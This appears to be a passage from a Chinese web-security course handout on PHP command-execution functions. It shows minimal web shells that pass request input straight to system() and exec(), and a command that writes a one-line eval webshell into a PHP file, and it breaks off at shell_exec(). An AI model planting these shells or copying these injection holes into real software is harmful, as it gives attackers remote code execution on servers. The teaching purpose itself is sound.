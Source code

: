 ![image-20240520110616658](G:\BaiduSyncdisk\知了堂\01web安全\06WEB安全讲义\01PHP\PHP基础\images\image-20240520110616658.png)

## 命令执行函数

### 1.system()         

**能够将字符串作为操作系统（Operator Sytstemc，OS）命令执行。在类似systemc() 函数调用系统命令时，PHP 会自动区分平台**

```php
<?php
    $cmd=$_REQUEST ["cmd"];
	system($cmd);
    ?>
```

![image-20240520111017257](G:\BaiduSyncdisk\知了堂\01web安全\06WEB安全讲义\01PHP\PHP基础\images\image-20240520111017257.png)

还可以用echo写入一句话木马，来进行连接

```
cmd=echo “<?php @eval($\_POST['dys']);?>” >> dys.php
```



```php
<?php
    $cmd=$_GET ["cmd"];
	system($cmd);
    ?>
        
posT无结果
<?php
    $cmd=$_POST ["cmd"];
	system($cmd);
    ?>
```

### **2.exec（）**

**需要命令执行结果****只输出命令执行结果的最后一行，约等于没有回显**

```php
<?php
    $cmd=$_REQUEST ["cmd"];
	echo exec($cmd);
    ?>
```

![image-20240520111828402](G:\BaiduSyncdisk\知了堂\01web安全\06WEB安全讲义\01PHP\PHP基础\images\image-20240520111828402.png)

### **3.shell_exec（）**

**需要输出命令执行结果**
